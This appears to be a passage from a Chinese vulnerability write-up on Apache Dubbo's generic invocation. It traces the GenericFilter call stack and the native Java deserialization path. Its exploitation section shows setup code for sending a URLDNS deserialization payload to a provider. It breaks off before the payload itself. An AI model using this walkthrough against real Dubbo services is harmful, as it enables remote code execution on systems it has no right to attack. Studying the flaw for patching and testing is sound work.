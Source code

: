 这是`consumer`访问`provider`时到`GenericFilter`的调用栈
```java
invoke:60, GenericFilter (org.apache.dubbo.rpc.filter)
invoke:81, ProtocolFilterWrapper$1 (org.apache.dubbo.rpc.protocol)
invoke:38, ClassLoaderFilter (org.apache.dubbo.rpc.filter)
invoke:81, ProtocolFilterWrapper$1 (org.apache.dubbo.rpc.protocol)
invoke:41, EchoFilter (org.apache.dubbo.rpc.filter)
invoke:81, ProtocolFilterWrapper$1 (org.apache.dubbo.rpc.protocol)
reply:145, DubboProtocol$1 (org.apache.dubbo.rpc.protocol.dubbo)
handleRequest:100, HeaderExchangeHandler (org.apache.dubbo.remoting.exchange.support.header)
received:175, HeaderExchangeHandler (org.apache.dubbo.remoting.exchange.support.header)
received:51, DecodeHandler (org.apache.dubbo.remoting.transport)
run:57, ChannelEventRunnable (org.apache.dubbo.remoting.transport.dispatcher)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:748, Thread (java.lang)
```

定位到关键代码，当判断`generic`为`GENERIC_SERIALIZATION_NATIVE_JAVA`（即`nativejava`）时，调用java原生反序列化
```java
if (ProtocolUtils.isJavaGenericSerialization(generic)) {
    for (int i = 0; i < args.length; i++) {
        if (byte[].class == args[i].getClass()) {
            try (UnsafeByteArrayInputStream is = new UnsafeByteArrayInputStream((byte[]) args[i])) {
                args[i] = ExtensionLoader.getExtensionLoader(Serialization.class)
                .getExtension(GENERIC_SERIALIZATION_NATIVE_JAVA)
                .deserialize(null, is).readObject();
            } catch (Exception e) {
                throw new RpcException("Deserialize argument [" + (i + 1) + "] failed.", e);
            }
        } else {
            throw new RpcException();
            ......  

```

## 漏洞利用

这里我直接用了Dubbo的demo provider和consumer，但是有个很坑的地方就是，provider必须把对nativejava序列化的模块加进依赖，不然会找不到处理字节码的模块，demo里的provider是没有的。。
```xml
<dependency>
    <groupId>org.apache.dubbo</groupId>
    <artifactId>dubbo-serialization-jdk</artifactId>
</dependency>
```

把`$invoke`的参数换成`URLDNS`的payload，运行consumer
```java
        ReferenceConfig<GenericService> reference = new ReferenceConfig<GenericService>();
        reference.setInterface(DemoService.class);
        reference.setUrl("dubbo://127.0.0.1:20880/org.apache.dubbo.demo.DemoService?application=generic-test&generic=nativejava&interface=org.apache.dubbo.demo.DemoService&register.ip=xx.xx.xx.xx&remote.application=&scope=remote&side=consumer&sticky=false&timeout=3000000");
        // 设置nativejava
        reference.setGeneric(GENERIC_SERIALIZATION_NATIVE_JAVA);

        DubboBootstrap bootstrap = DubboBootstrap.getInstance()
                .application(new ApplicationConfig("generic-test"))
                .registry(new RegistryConfig("N/A"))
                .protocol(new ProtocolConfig("dubbo", 20880))
                .reference(reference)
                .start();

        DemoService demoService = (DemoService)ReferenceConfigCache.getCache().get(reference);
```